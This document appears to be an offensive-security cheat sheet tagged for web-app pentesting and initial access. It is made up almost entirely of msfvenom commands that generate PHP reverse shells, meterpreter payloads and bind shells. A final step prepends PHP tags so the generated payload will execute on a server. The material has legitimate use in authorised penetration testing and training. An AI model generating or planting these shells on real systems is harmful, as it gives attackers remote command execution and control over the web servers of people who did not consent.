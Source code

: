 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - initial-access
  - cross-platform
  - metasploit-framework
---
```

# Manual

## Reverse Shells

### Generate a payload via `msfvenom`

Staged PHP reverse shell.

```
$ msfvenom -p php/reverse_php lhost=<IP> lport=<PORT> -f raw -o payload.php

$ msfvenom -p cmd/unix/reverse_php_ssl handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>
```

Staged PHP with perl reverse shell.

```
$ msfvenom -p php/reverse_perl lhost=<IP> lport=<PORT> -f raw -o payload.php
```

Staged PHP `meterpreter` reverse shell.

```
$ msfvenom -p php/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw -o payload.php
```

Stageless PHP `meterpreter` reverse shell.

```
$ msfvenom -p php/meterpreter_reverse_tcp lhost=<IP> lport=<PORT> -f raw > payload.php
```

## Bind Shells

### Generate a payload via `msfvenom`

Staged PHP bind shell.

```
$ msfvenom -p php/bind_php lhost=<IP> lport=<PORT> -f raw -o payload.php
```

Staged PHP with perl bind shell.

```
$ msfvenom -p php/bind_perl lport=<PORT> -f raw -o payload.php
```

Staged PHP `meterpreter` bind shell.

```
$ msfvenom -p php/meterpreter/bind_tcp lport=<PORT> -f raw -o payload.php
```

Stageless PHP `meterpreter` bind callback shell

```
$ msfvenom -p php/meterpreter_bind_tcp lport=<PORT> -f raw -o payload.php
```

## Properly Executed

After generating the PHP payload include the tags to ensure execution.

```
$ xclip -selection clipboard payload.php && echo '<?php ' | tr -d '\n' > payload.php && xclip -selection clipboard -o >> payload.php
```